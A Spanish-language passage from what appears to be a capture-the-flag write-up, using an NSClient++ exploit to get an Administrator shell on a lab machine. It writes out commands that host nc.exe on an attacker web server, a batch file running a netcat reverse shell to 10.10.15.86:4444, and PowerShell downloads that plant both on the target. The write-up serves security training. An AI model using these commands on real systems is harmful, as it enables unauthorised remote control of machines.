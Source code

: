 ![8](images/8.png)

Investigando un poco sobre **NSClient++** podemos encontrar un [exploit](https://www.exploit-db.com/exploits/46802) que permite ejecutar comandos del sistema el cual usaremos para obtener shell con privilegios de Administrador.

Levantamos nuestro servidor web con los archivos necesarios.

- `locate nc.exe`
- `cp /usr/share/windows-resources/binaries/nc.exe .`
- `sudo python3 -m http.server 80`

![9](images/9.png)

##### admin.bat
```
@echo off
c:\Temp\nc.exe 10.10.15.86 4444 -e cmd.exe
```

Subimos nc.exe y nuestro archivo .bat al sistema.

- `powershell`
- `iwr http://10.10.15.86/nc.exe -Outfile c:\Temp\nc.exe`
- `iwr http://10.10.15.86/admin.bat -Outfile c:\Temp\admin.bat`

![10](images/10.png)

